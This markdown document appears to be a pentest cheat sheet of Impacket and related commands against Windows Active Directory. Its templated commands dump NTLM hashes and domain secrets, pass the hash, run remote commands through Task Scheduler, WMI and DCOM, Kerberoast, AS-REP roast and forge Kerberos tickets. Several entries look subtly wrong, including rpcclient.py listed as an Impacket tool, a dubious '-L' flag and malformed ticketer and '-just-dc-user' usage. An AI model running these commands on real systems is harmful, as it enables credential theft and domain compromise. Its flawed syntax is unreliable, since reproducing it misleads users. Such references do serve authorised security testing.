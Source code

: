 ```yaml
---
legal-banner: true
---
```


### **Impacket Toolkit**

Impacket is a collection of Python classes for working with network protocols. It is highly regarded in the cybersecurity community for its ability to handle low-level network tasks and its extensive support for various protocols, making it an essential toolkit for penetration testers and security researchers.

### **SMB/SMB2**

**smbclient.py** – Interactive SMB client to work with shares.

1. Access SMB shares interactively  
```bash
smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  
2. List all available shares on the target  
```bash
smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -L
```  

**secretsdump.py** – Dump secrets from a remote machine without executing any agent.

1. Dump NTLM hashes of all domain users from a domain controller  
```bash
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  

2. Dump NTLM hashes using Pass-the-Hash  
```bash
secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

**netview.py** – Enumerate shares and sessions on the network.

1. Enumerate network shares and sessions  
```bash
netview.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  

2. Enumerate shares using Pass-the-Hash  
```bash
netview.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

### **MSRPC**

**rpcclient.py** – Execute client-side MSRPC calls. 

1. Execute MSRPC client calls  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate domain users  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomusers"
```

3. Enumerate domain groups  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomgroups"
```

4. Execute command on target machine  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "cmd"
```  

**rpcdump.py** – Dump information about endpoints and interfaces.

1. Dump RPC endpoints and interfaces info  
```bash
rpcdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Dump RPC endpoints using Pass-the-Hash  
```bash
rpcdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```

3. Dump RPC endpoints with no credentials  
```bash
rpcdump.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

### **DCE/RPC**

**atexec.py** – Execute commands using Task Scheduler.

1. Execute command using Task Scheduler  
```bash
atexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
atexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
atexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

**wmiexec.py** – Execute commands via WMI.

1. Execute command via WMI  
```bash
wmiexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
wmiexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
wmiexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

**dcomexec.py** – Execute commands using DCOM. 

1. Execute command using DCOM  
```bash
dcomexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
dcomexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
dcomexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

### **LDAP**

#### **GetADUsers.py** – Enumerate all users in the domain.

1. Enumerate all domain users  
```bash
GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate all users including disabled accounts  
```bash
GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -all
```

3. Use Pass-the-Hash for enumeration  
```bash
GetADUsers.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

#### **GetUserSPNs.py** – Enumerate Service Principal Names (SPNs).

1. Enumerate user SPNs  
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]
```

2. Request TGS for identified SPNs  
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]
```

3. Use Pass-the-Hash to enumerate SPNs  
```bash
GetUserSPNs.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME] -dc-ip [IP-ADDRESS]
```  

#### **windapsearch.py** – Perform LDAP queries against Active Directory. 

1. Enumerate Group Policy Objects  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --gpos
```

2. Enumerate objects with administrative privileges  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --admin-objects
```

3. Enumerate users with SPNs  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --user-spns
```

4. Enumerate users with unconstrained delegation  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-users
```

5. Enumerate computers with unconstrained delegation  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-computers
```  

### **Kerberos**

#### **ticketer.py** – Generate Kerberos tickets.

1. Generate a TGT ticket for a user  
```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] [USERNAME]
```

2. Generate a service ticket for a user and SPN  
```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] -request [USERNAME] [SPN]
```

3. Generate TGT ticket with AES encryption  
```bash
ticketer.py -aesKey [AESKEY] -domain-sid [SID] [USERNAME]
```  

**GetNPUsers.py** – Check for accounts with pre-authentication disabled.

1. Enumerate accounts with pre-auth disabled  
```bash
GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]
```

2. Request TGT for identified accounts  
```bash
GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]
```

3. Request TGT using Kerberos authentication  
```bash
GetNPUsers.py -k [DOMAIN]/[USERNAME] -request -dc-ip [IP-ADDRESS]
```  

### **NTLM**

**lookupsid.py** – Enumerate domain SID information.

1. Enumerate domain SID info  
```bash
lookupsid.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate domain SID info using Pass-the-Hash  
```bash
lookupsid.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```

3. Enumerate domain SID info with no credentials  
```bash
lookupsid.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

**secretsdump.py** – Dump secrets from remote machines.

1. Dump secrets from a remote machine  
```bash
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Dump secrets from the domain controller  
```bash
secretsdump.py -just-dc-user [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

3. Dump secrets using Pass-the-Hash  
```bash
secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  
